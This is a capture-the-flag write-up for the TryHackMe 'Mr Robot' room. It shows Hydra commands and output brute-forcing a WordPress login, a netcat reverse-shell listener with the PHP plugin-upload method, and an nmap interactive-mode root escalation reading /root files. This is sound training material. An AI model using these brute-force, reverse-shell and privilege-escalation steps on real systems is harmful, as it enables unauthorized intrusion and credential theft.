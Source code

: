 # MrRobot
> Based on the Mr. Robot show, can you root this box?

This Mr Robot [TryHackMe Room](https://tryhackme.com/room/mrrobot) has three hidden keys that
need to be found.

## Initial Enumeration
* nmap 
* gobuster

## Key 1
* Navigated to robots.txt:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

fsocity.dic contains a bunch of possible usernames and passwords. Perhaps we can
use this to brute force the WordPress login page?

I noticed there was a ton of duplicate text in the file, so I removed them with the
following bash command:

```
sort fsocity.dic | uniq > uniq.dic
```

This greatly reduced the number of lines in the file:

```
wc -l fsocity.dic uniq.dic                                                                                             
  858160 fsocity.dic                            
  11451 uniq.dic                          
 869611 total
```

## Brute Force User Credentials

Navigate to the WordPress login page found in the Gobuster scan

**TODO: add image**

Try to login:


**TODO: add image of test:test login**

View the request (I like to user the Developer Tools instead of BurpSuite, but use
whatever you're comfortable with)


**TODO: add image of request**


Copy the request payload and use it to brute force the correct username with Hydra:

```
$ hydra -L uniq.dic -p test 10.10.105.33 http-post-form "/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.105.33%2Fwp-admin%2F&testcookie=1:F=Invalid username"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-31 19:06:48
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://10.10.105.33:80/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.105.33%2Fwp-admin%2F&testcookie=1:F=Invalid username
[STATUS] 189.00 tries/min, 189 tries in 00:01h, 11263 to do in 00:60h, 16 active
[STATUS] 189.00 tries/min, 567 tries in 00:03h, 10885 to do in 00:58h, 16 active
[STATUS] 258.14 tries/min, 1807 tries in 00:07h, 9645 to do in 00:38h, 16 active
[STATUS] 235.87 tries/min, 3538 tries in 00:15h, 7914 to do in 00:34h, 16 active

[80][http-post-form] host: 10.10.105.33   login: Elliot   password: test
```

username is **Elliot**

Now brute force the password:

```
hydra -l Elliot -P uniq.dic 10.10.230.119 http-post-form "/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.105.33%2Fwp-admin%2F&testcookie=1:S=302"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-01 14:26:18
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://10.10.230.119:80/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.105.33%2Fwp-admin%2F&testcookie=1:S=302
[STATUS] 698.00 tries/min, 698 tries in 00:01h, 10754 to do in 00:16h, 16 active
[STATUS] 467.33 tries/min, 1402 tries in 00:03h, 10050 to do in 00:22h, 16 active
[STATUS] 366.57 tries/min, 2566 tries in 00:07h, 8886 to do in 00:25h, 16 active
[STATUS] 300.08 tries/min, 3601 tries in 00:12h, 7851 to do in 00:27h, 16 active
[STATUS] 246.59 tries/min, 5425 tries in 00:22h, 6027 to do in 00:25h, 16 active
[80][http-post-form] host: 10.10.230.119   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-01 14:49:41
```

password is **ER28-0652**

## Getting a Reverse Shell

First, start a netcat listener on the local attacker machine:

```
$ nc -nlvp 4444
```  

Next, prepare a PHP reverse shell to be uploaded as a WordPress plugin. The file must include the following comments to be recognized as a valid
WordPress plugin:

```

```

Finally, upload and activate the payload plugin to spawn a reverse shell.

**TODO: add image**

The second key can be found in the robot user's home directory.

## Privilege Escalation

```
robot@linux:/$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help

nmap> ! id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
waiting to reap child : No child processes
```

We are running with effective user id (euid) of root! This means we can print the last key found in
/root:

```
nmap> ! cat /root/key-3-of-3.txt
XXXXX
```
